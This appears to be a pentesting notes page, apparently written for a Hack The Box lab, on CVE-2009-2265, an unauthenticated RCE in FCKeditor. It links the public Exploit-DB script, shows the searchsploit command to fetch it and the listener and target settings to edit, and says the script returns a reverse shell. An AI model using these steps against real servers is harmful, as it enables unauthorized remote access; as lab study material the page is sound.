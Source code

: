 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2009-2265 - Unauthenticated RCE

Multiple directory traversal vulnerabilities in `FCKeditor` _**before 2.6.4.1**_ allow remote attackers to create executable files in arbitrary directories via directory traversal sequences in the input to unspecified connector modules, as exploited in the wild for remote code execution in July 2009, related to the file browser and the **editor**/**filemanager**/**connectors**/ directory.

{% hint style="info" %}
## NVD CVE

[https://nvd.nist.gov/vuln/detail/CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265)
{% endhint %}

{% hint style="info" %}
## Exploit DB

[https://www.exploit-db.com/exploits/50057](https://www.exploit-db.com/exploits/50057)
{% endhint %}

## Exploitation

Download the exploit script via Exploit DB, or use [searchsploit.md](../../../../toolbox/tooling/exploitation-tools/searchsploit.md "mention").

{% code title="Searchsploit Command" %}
```bash
searchsploit -p 50057
```
{% endcode %}

### Modifications

{% code title="50057.py Snippet" %}
```python
if __name__ == '__main__':
    # Define some information
    lhost = '10.10.14.55' # HTB VPN IP
    lport = 4444 # A port not in use on localhost
    rhost = "10.129.247.30" # Target IP
    rport = 8500 # Target Port
    filename = uuid.uuid4().hex
```
{% endcode %}

### Running the Exploit

```bash
python3 50057.py 
```

The exploit will take a bit of time to launch, but it eventually will return a functional remote shell.
